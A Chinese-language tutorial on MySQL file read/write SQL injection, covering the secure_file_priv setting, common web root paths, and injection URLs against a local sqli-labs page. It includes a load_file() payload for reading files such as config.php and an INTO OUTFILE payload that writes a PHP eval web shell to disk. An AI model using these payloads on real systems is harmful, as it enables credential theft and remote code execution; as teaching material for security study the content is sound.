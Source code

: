 # SQL注入—文件读写注入

# SQL注入—文件读写注入

## 读写注入的原理

利用文件的读写权限进行注入，它可以写入一句话木马，也可以读取系统文件的敏感信息。

​	

## 文件读写注入的条件

高版本的 MySQL 添加了一个新的特性：`secure_file_priv` 系统变量，该变量限制了 MySQL 导出文件的权限。

### `secure_file_priv` 变量的路径：

- Linux：`cat etc/conf`
- Windows：`www/mysql/my.ini`

​	

### 查看 MySQL 全局变量的配置：

(在 MySQL 数据库中输入)

```mysql
show global variables like '%secure%';
```

​	

### 文件读写注入的条件：

1、读写文件需要 `secure_file_priv` 权限

- `secure_file_priv=''`：代表对文件读写没有限制
- `secure_file_priv=NULL`：代表不能进行文件读写
- `secure_file_priv=d:/phpstudy/mysql/data`：代表只能对该路径下文件进行读写
> 在 MySQL 5.5 之前 `secure_file_priv` 默认为空
> 在 MySQL 5.5 之后 `secure_file_priv` 默认为 NULL

​	

2、知道网站绝对路径

Windows 常见的绝对路径：

- phpstudy: `phpstudy/www`  `phpstudy/PHPTutorial/www`
- Xampp: `xampp/htdocs`
- Wamp: `wamp/www`
- Appser: `appser/www`

Linux 常见的绝对路径：

- `/var/mysql/data`
- `/var/www/html`

​	

路径获取常见方式：

- 报错显示
- 遗留文件
- 漏洞报错
- 平台配置文件等

​	

## 读取文件

使用函数：`load_file()`

后面的路径可以是单引号，0x，char 转换的字符。

注意：路径中斜杠是 `/` 不是 `\`

一般可以在联合查询中做为一个字段使用，查看 config.php (即 MySQL 的密码)，apache 配置...

```mysql
#读取路径下的某个文件并返回结果
http://127.0.0.1/mysql/Less-1/?id=-1' union select 1,2,load_file('c:/users/wutongliran/desktop/2.txt') --+
```

​	

## 写入文件

使用函数：

- `into outfile`：能写入多行，按格式输出
- `into dumpfile`：只能写入一行且没有输出格式

`into outfile` 后面不能接 0x 开头或者 char 转换以后的路径，只能是单引号路径

```mysql
#将木马写入指定位置
http://127.0.0.1/mysql/Less-1/?id=-1' union select 1,'<?php eval($_REQUEST[wtlr]); ?>',3 into outfile 'D://1.php'--+
```


